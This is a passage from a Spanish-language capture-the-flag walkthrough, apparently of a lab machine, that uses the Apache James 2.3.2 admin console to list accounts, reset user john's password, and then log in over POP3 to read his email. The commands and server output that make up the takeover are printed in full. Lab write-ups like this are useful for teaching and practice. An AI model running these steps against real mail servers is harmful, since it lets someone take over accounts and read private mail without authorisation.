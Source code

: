 Ejecutamos comando HELP para ver lista de posibles comandos

```bash
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```
```bash
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Tenemos una lista de usuarios y la capacidad de cambiar su contraseña. Podemos cambiar la contraseña y loguearnos para ver emails de usuarios. 

```bash
setpassword john john123
Password for john reset
```

```ruby
❯ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS john123
+OK Welcome john
LIST
+OK 1 743
1 743
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
```